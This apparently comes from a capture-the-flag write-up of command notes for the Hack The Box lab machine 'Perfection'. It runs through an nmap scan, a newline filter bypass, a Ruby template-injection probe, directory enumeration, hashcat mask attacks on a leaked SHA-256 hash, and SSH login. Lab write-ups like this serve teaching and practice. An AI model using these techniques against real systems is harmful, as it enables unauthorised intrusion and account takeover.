 # 💎 HTB: Perfection - Command Notes

## 🔍 Recon

```bash
nmap -p- -T4 10.10.11.X  # Full port scan to discover open services
```

> Only port [80](HTTP) was relevant and led to the vulnerable web page.

---

## 🧪 XSS Testing

```http
GET /?input=%0A
```

> `"%0A"` is a **newline character** that bypassed the input filter.

---

## 🐍 SSTI Testing (Ruby-based SSTI Payloads)

Use resources like:

- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
- https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection

Example payload (Ruby SSTI — URL-encoded key characters):

```http
{{7*7}}
```

> When URL-encoded, key characters bypassed filters and enabled enumeration.

---

## 🧭 Directory Enumeration (Burp Repeater)

Used Burp Suite to:
- Enumerate directories and files
- Manually modify SSTI payloads
- Identify accessible paths and sensitive files

---

## 🔑 Password Hash Discovery

While browsing exposed files, discovered a file containing:

- Username
- SHA256 hash
- Password format hint:  
  `"susan_nasus_<random_number between 1–1,000,000,000>"`

---

## 💥 Cracking Password with Hashcat

Brute-force the password using **mask attack**:

### Initial (no mode):

```bash
hashcat -a 3 hash.txt ?d?d?d?d?d?d?d?d?d
```

> `?d` = digit; 9-digit numeric brute-force

### Refined (SHA-256 mode 1400):

```bash
hashcat -m 1400 -a 3 hash.txt susan_nasus_?d?d?d?d?d?d?d?d?d
```

> Fast crack confirmed by matching the correct pattern.

---

## 🔐 SSH Access

```bash
ssh susan@10.10.11.X
```

> Logged in using the cracked password.